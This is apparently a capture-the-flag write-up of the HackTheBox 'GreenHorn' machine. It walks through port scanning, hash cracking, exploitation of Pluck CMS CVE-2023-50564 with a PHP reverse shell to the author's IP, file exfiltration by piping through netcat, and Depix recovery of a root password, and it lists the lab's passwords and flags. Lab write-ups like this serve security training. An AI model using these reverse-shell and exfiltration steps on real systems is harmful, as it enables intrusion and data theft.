







# HTB GreenHorn

Add the DNS into HOSTS

```bash
echo -e '10.129.191.235\t\tgreenhorn.htb'
```

## Admin console page


## nmap scan for ports 

```bash
(base) nathan@ubuntu-desktop:~/Documents/git/ctf_journey$ sudo nmap -sS 10.10.11.25
[sudo] password for nathan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 03:34 CET
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

We can see that we have a ppp server running on 3000.

Opening up the web page we can see that there is self hosting git service with the git project.

## User Password



User hash password.

`d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163`



We can see that its a sha512 hash. We can try and bruteforce the password.

Simply by trying to use a cracker online I've found the password.


## Admin login

We can finally login into the pluck admin page.
Logged in with the password.


Now we can see the pluck version that they are using. 4.7.18.

## CVE CVE-2023-50564

First search found a CVE on Pluck being able to do remote Code Excecution. This is good since this will help us invoke a reverse shell.



Found more info here [github](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC).
CVE-2023-50564 is a vulnerability that allows unauthorized file uploads in Pluck CMS version 4.7.18. This exploit leverages a flaw in the module installation function to upload a ZIP file containing a PHP shell, thereby enabling remote command execution.

I took the php script in the git and simply added my own IP addr. I had for the VPN.

Snippet : 

```php
        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.132', 8888);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>

```

Created a ZIP and uploaded to the server VIA import modules.

```bash

(base) nathan@ubuntu-desktop:~/Downloads/GreenHorn/rev/CVE-2023-50564_Pluck-v4.7.18_PoC$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.11.25 38794
SOCKET: Shell has connected! PID: 7198
```


## User flag


```bash
whoami 
www-data
ls
README.md
SECURITY.md
admin.php
data
docs
files
images
index.php
install.php
login.php
requirements.php
robots.txt
tree
ls /home/
git
junior
ls /home/junior/
Using OpenVAS.pdf
user.txt
ls -la /home/junior/user.txt
-rw-r----- 1 root junior 33 Nov  2 00:45 /home/junior/user.txt
```

Connect as junior

```bash
su junior
Password: iloveyou1
whoami
junior
```

User flag : 
```bash
cat /home/junior/user.txt
667ba77652cff26d8a402206bf756e8d
```

## Root flag

Saw a pdf file earlier in the logs so lets self transfer it.

Our listening server :
```bash
(base) nathan@ubuntu-desktop:~$ nc -lnvp 8889 > Using_OpenVAS.pdf
Listening on 0.0.0.0 8889
Connection received on 10.10.11.25 50624
```

The file transfer with cat :
```bash
cd /home/junior
ls
user.txt
Using OpenVAS.pdf
cat Using\ OpenVAS.pdf | nc 10.10.14.132 8889
```
We see a pixelated password.


Extract image from pdf : 

```bash
pdfimages Using_OpenVAS.pdf out_pdf.ppm
```



Using [Depix repo](https://github.com/spipm/Depix/tree/main) to depix linear pixelation : 

```bash
python3 depix.py     -p out_pdf.ppm-000.ppm     -s images/searchimages/debruinseq_notepad_Windows10_spaced.png
```

Here is the output image


We can read this password : 

`sidefromsidetheothersidesidefromsidetheotherside`

su root :

```bash
su root
Password: sidefromsidetheothersidesidefromsidetheotherside
whoami
root
```

Root flag : 

```bash
cd /root
ls
cleanup.sh
restart.sh
root.txt
cat root.txt
eb889c6c6dba0888fdc40b9e327bbbca
```